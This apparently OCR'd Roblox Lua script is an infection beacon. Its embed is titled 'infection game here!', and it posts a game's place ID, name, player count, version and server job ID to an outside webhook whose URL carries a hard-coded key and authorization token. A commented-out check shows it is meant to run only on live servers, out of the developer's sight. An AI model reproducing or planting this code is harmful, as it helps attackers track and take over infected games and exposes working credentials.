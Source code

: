 local webhook = "https://api-sidemod.sidetechrblx.com/v3/webhooks/1254229768728084603/sk_ctgDy9C6Imct2XNOrAMqrmjCbrwHTPJ3bcf9QuTsIXXJzTXRi_Aghyg1rd0ZLYnkq?authorization=rEX7R8W3DqxRT409LLQh"
local name = game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId)
local http = game:GetService("HttpService")
local players = game.Players:GetPlayers()
local maxplayers = game.Players.MaxPlayers

local function getTime()
	local date = os.date("*t")
	return ("%02d:%02d"):format(((date.hour % 24) - 1) % 12 + 1, date.min)
end

local data = {
	["embeds"] = {{
		["title"] = "infection game here!",
		["url"] = "https://roblox.com/games/" .. game.PlaceId,
		["description"] = "**Game Name:** ".. name.Name.."\n**Players:** ".. #players.."/"..maxplayers.."\n**Game Id:** ".. game.PlaceId.."\n**Game Version:** ".. game.PlaceVersion.."\n**Job Id:** "..game.JobId,
		["image"] = {
			["url"] = "https://t2.rbxcdn.com/0d499b55a8bc928003c91e739d829038"..game.PlaceId.."&width=768&height=432&format=png"
		},
		["footer"] = {
			["icon_url"] = "", 
		},
		["color"] = 5814783,

	}}
}

--if not game:GetService("RunService"):IsStudio() then 
local encode = http:JSONEncode(data) 
http:PostAsync(webhook,encode)
--end -- it will not run in studio only in game
